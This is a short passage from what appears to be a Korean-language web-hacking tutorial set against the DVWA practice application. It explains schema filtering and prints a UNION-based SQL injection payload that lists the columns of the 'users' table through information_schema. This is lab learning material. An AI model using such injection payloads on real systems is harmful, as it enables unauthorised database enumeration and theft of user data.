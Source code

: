 <div align="center" >
<img src="/Art of Web Hacking/Chapter7/006.png" width="600" height="200"> <br>
</div>스샷. 6<br>
- table_schema가 dvwa인지를 확인하는 조건을 <br>
주어 dvwa DB의 테이블만 출력,guest와 users라는 테이블이 출력됨<br>


<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#7DA123">'&nbsp;UNION&nbsp;SELECT&nbsp;column_name,2&nbsp;from&nbsp;information_schema.columns&nbsp;where&nbsp;table_schema='</span>dvwa<span style="color:#7DA123">'&nbsp;and&nbsp;table_name='</span>users<span style="color:#7DA123">'#</span></div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div><br>

<div align="center" >